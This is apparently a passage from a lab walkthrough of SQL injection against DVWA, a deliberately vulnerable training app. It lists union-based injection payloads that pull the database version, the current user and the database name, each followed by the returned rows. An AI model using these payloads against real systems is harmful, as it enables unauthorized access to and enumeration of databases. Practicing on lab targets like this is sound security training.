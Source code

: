
5. To extract database version:

ID:   %' or 0=0 union select null,version()# 
First name: admin
Surname: admin
ID:   %' or 0=0 union select null,version()# 
First name: Gordon
Surname: Brown
ID:   %' or 0=0 union select null,version()# 
First name: Hack
Surname: Me
ID:   %' or 0=0 union select null,version()# 
First name: Pablo
Surname: Picasso
ID:   %' or 0=0 union select null,version()# 
First name: Bob
Surname: Smith
ID:   %' or 0=0 union select null,version()# 
First name: 
Surname: 10.4.32-MariaDB


6. To get all database user:

ID:  %' or 0=0 union select null,user()#
First name: admin
Surname: admin
ID:  %' or 0=0 union select null,user()#
First name: Gordon
Surname: Brown
ID:  %' or 0=0 union select null,user()#
First name: Hack
Surname: Me
ID:  %' or 0=0 union select null,user()#
First name: Pablo
Surname: Picasso
ID:  %' or 0=0 union select null,user()#
First name: Bob
Surname: Smith
ID:  %' or 0=0 union select null,user()#
First name: 
Surname: root@localhost


7. Display database name:

ID: %' or 0=0 union select null,database()# 
First name: admin
Surname: admin
ID: %' or 0=0 union select null,database()# 
First name: Gordon
Surname: Brown
ID: %' or 0=0 union select null,database()# 
First name: Hack
Surname: Me
ID: %' or 0=0 union select null,database()# 
First name: Pablo
Surname: Picasso
ID: %' or 0=0 union select null,database()# 
First name: Bob
Surname: Smith
ID: %' or 0=0 union select null,database()# 
First name: 
Surname: dvwa
